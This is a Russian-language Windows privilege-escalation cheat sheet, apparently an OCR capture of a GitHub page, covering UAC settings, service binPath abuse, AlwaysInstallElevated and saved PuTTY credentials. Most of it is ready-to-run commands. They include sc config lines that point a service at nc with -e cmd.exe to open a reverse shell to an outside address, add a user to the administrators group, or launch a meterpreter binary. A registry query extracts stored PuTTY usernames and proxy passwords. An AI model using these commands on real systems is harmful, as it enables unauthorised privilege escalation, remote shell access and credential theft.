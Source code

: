 # UAC

UAC используется для того, чтобы **пользователь-администратор не давал права администратора каждому выполняемому процессу** . Это **достигается использованием по умолчанию** **маркера пользователя** с низкими привилегиями . 

```
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\
```

---

#  **Изменить binPath службы**

Если группа «Прошедшие проверку» имеет **SERVICE_ALL_ACCESS** в службе, она может изменить двоичный файл, который выполняется службой. Чтобы изменить его и выполнить **nc** , вы можете сделать:

```
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"

sc config <Service_Name> binpath= "net localgroup administrators username /add"

sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"

sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

```
sc create newservicename binPath= "C:\windows\system32\notepad.exe"

sc start newservicename
```
---

# AlwaysInstallElevated

**Если** эти 2 регистра **включены** (значение **0x1** ), то пользователи с любыми привилегиями могут **устанавливать** (выполнять) `*.msi`файлы как NT AUTHORITY\ **SYSTEM** .

```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

---

# Файлы и реестр (учетные данные)

## Putty Creds

```
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s | findstr "HKEY_CURRENT_USER HostName PortNumber UserName PublicKeyFile PortForwardings ConnectionSharing ProxyPassword ProxyUsername" #Check the values saved in each session, user/password could be there
```
